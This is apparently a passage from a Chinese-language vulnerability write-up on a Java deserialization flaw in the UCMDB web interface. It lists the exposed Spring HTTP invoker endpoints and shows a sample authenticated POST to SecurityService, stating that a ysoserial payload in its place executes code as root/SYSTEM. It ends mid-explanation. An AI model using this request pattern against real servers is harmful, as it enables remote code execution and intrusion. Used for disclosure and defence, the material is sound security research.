 ```
/ucmdb/services/BundleService
/ucmdb/services/LocationService
/ucmdb/services/SchedulerService
/ucmdb/services/ImpactService
/ucmdb/services/CommonService
/ucmdb/services/PermissionsService
/ucmdb/services/ClassModelService
/ucmdb/services/SnapshotService
/ucmdb/services/LDAPService
/ucmdb/services/CITService
/ucmdb/services/MultiTenancyService
/ucmdb/services/SecurityService
/ucmdb/services/ResourceManagementService
/ucmdb/services/AutomationMappingService
/ucmdb/services/LicensingService
/ucmdb/services/GenericAdapterService
```

下面可以看到一个对具有讽刺意味的 SecurityService 的请求示例:

```
POST /ucmdb-ui/services/SecurityService HTTP/1.1
Host: 10.10.10.99:8443
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
content-type: application/x-java-serialized-object
Cookie: LWSSO_COOKIE_KEY=1fezNb7T1QRggkhFBrYhMCuiSchrqKdyAabSSOMrZMeP28-FiIyzLNlVV9KBagKsLjiUbGdJ0mWen7OvATgC3LiWmlGRQw5vnTzm9tV8f3tIfOqXvbZIWudk4vajf4Qqux-X2S1MJJB6b2ikNA9M921ilRDptEY0IqeiQ68mxIAFs5PxS9I22r5YszZMSMYme05GgtdbQQA-JqOvDrRNYOFca5IZgtbpGkHzCPUUyLk.
Content-Length: 6855

<JAVA_SERIALIZED_OBJECT>
```

这个 POST 请求，如果用经过验证的 LWSSO_COOKIE_KEY 来完成，如果 <JAVA_SERIALIZED_OBJECT> 是 ysoserial 的有效载荷，那么将导致以 root / SYSTEM 的身份立即执行代码。

为了理解这一点是如何工作的，我们需要更深入地了解一下。上面使用的所有端点都是 Spring Framework 远程服务的实现。这些服务调用由 com.hp.ucmdb.uiserver.services.context.CmdbHttpInvokerServiceExporter 处理，它是一个实现 org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter 的类。Javadoc 中对它有很好的描述:

基于 Servlet-API 的 HTTP 请求处理程序，将指定的服务 Bean 导出为 HTTP invoker 服务端点，通过 HTTP invoker 代理访问。解串化远程调用对象，并序列化远程调用结果对象。像 RMI 一样使用 Java 序列化，但提供了与 Caucho 基于 HTTP 的 Hessian 协议相同的设置简易性。

HTTP invoker 是 Java 对 Java 远程的推荐协议。它比 Hessian 更强大，可扩展性更强，但代价是与 Java 绑定。尽管如此，它和 Hessian 一样容易设置，这是它与 RMI 相比的主要优势。

警告：请注意由于不安全的 Java 反序列化所导致的漏洞。在反序列化步骤中，被操纵的输入流可能导致服务器上不必要的代码执行。因此，不要将 HTTP invoker 端点暴露给不受信任的客户端，而只是在自己的服务之间暴露。一般来说，我们强烈建议使用任何其他的消息格式（例如 JSON）来代替。

在实践中，它以如下方式工作：上面列出的服务（例如 SecurityService）以允许远程方法调用的方式实现。下面的片段包含了 SecurityService 实现的代码（com.hp.ucmdb.uiserver.services.cmdb.impl.SecurityServiceImpl）：
